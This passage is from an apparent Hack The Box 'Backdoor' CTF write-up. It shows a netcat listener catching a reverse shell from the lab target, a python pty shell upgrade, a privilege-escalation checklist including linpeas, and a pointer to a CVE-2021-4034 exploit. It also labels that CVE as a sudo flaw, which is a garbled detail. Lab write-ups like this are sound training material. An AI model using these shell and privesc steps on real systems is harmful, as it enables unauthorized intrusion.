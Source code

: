 ```bash

----------------------------------------------

#Our reverse shell
┌──(kali㉿kali)-[~/Documents/HTB/Backdoor]
└─$ nc -nvlp 6969
listening on [any] 6969 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.125] 38176 

ls
plsRunMe.elf
revshell.elf
user.txt

whoami
user

#Success we got shell, but it kind of sucks, so lets spawn a better shell via python
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/sh")'
$
#Good enough
```

# Privesc enumeration
Allright, so we have shell, so here are my standard steps I do when I get shell:
- Whoami?
- Whats in the `/home/user/` directory?
- Is there any hashed passwords hashed in the `/etc/passwd` and can I edit it?
- Is there any silly setuid files?
- Transfer and run linpeas.sh

There are other things I would check but I'm far to lazy, if the first 4 don't yield anything interesting, I'm going to go for linpeas and automate the enumeration. Linpeas checks all this, but I find it easier to just use those two minutes first to check for the obvious ones.
To save you the time, there was nothing particulary interesting, the screen output from earlier is a possible vector but I wasn't really sure how that would work. The output from linpeas showed me that the sudo version was vulnerable, and I have previously successfully used this specific privesc code before. It was easier than finding the syntax for screen.
```bash
# The screen process that was being created every one second.
root         809  0.0  0.0   2608  1652 ?        Ss   11:47   0:14      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done

#The output from linpeas
╔══════════╣ Sudo version 
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31
Vulnerable to CVE-2021-4034 
```

# Privesc
So googling the cve gave me a code from this github page: https://www.exploit-db.com/exploits/50689
